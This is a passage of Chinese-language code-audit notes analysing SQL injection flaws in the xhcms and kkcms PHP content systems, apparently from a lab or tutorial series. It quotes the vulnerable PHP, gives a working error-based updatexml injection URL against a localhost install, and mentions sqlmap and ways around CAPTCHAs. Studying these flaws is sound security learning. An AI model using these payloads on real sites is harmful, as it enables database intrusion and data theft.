 ```plain
'$mail',
'$url',
'$touxiang',
'$shebei',
'$ip',
'$content',
'$tz',
now()
)";
我们在白盒上分析了这个漏洞，那么在黑盒上应该怎么分析呢？
首先观察留言框，然后看他是不是能在数据库上存储，进行SQL执行（insert语句），也可以用sqlmap进行盲注。但是有验证码，（看能不能验证码复用，或者识别验证码）
```

- 更新-update-xhcms-报错盲注

UPDATE table_name SET column1=value1,column2=value2,... WHERE some_column=some_value;搜索关键代码update，发现在files/software.php下面有update SQL执行语句。

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676694-e623f08b-3b3d-4e7e-943a-db00eed3583c.png)

```plain
参数接收：$id=addslashes($_GET['cid']);
SQL执行：
$query = "UPDATE download SET hit = hit+1 WHERE id=$id";
@mysql_query($query) or die('修改错误：'.mysql_error());
```

直接访问触发地址：127.0.0.1:8087/index.php?r=software&cid=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676748-11aff0b1-3827-4923-bebd-c75e2a58e5cd.png)

```plain
那么在黑盒中应该怎么分析？
查看哪里调用了software文件（全局搜索），发现在submit中有调用software
调用代码：
if ($type=='download'){
$fhlink="/?r=software&cid=".$cid;
$fhname="软件评论";
$type=3;
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135676834-c14d154b-b668-4c2b-ac14-6413520e3a1c.png)

全局搜索submit调用，type类型为download的调用地方，在页面中应该是下载评论的地方，http://127.0.0.1:8087/index.php?r=software&cid=1

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135677040-fee7d308-1d03-47d2-b8db-a3084c1a4bf8.png)

测试    http://127.0.0.1:8087/index.php?r=software&cid=1    cid的值

- 删除-delete-kkcms-延时盲注

DELETE FROM 表名称 WHERE 列名称 = 值

```plain
全局搜索delete 发现文件admin/model/usergroup.php
这个注入点是在后台的。
那么应该怎么样触发admin/model/usergroup.php呢
如果直接访问admin/moder/usergroup.php，那肯定是有问题的。
```
